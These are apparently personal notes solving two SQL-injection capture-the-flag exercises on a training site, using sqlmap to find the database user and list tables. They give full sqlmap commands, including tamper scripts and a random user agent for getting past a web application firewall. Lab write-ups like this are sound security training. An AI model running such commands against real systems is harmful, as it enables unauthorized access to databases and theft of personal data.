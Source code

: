 



# ED 103.2.4: Sqlmap on a Protected Target (10 pts extra)
`Find the current username, covered by a green box in the image below. That's the flag.`

## Notes
- --current-user

sqlmap -u "https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs" -p u --current-user

## Answer
- current user: 'bill2a@localhost'




# ED 103.2.5: Sqlmap: Retrieving Data (20 pts extra)
```Use Sqlmap on this target:
https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs

Recover the data from the tables. The flag is Steve Jobs' SSN.
```

Key notes to get around WAF:
- --tamper=between,randomcase,space2comment (you need each .py script located in the dir you're working in!!!)
- --random-agent

## sqlmap -u "https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs" --tamper=between,randomcase,space2comment --random-agent -v 3 -p u --tables
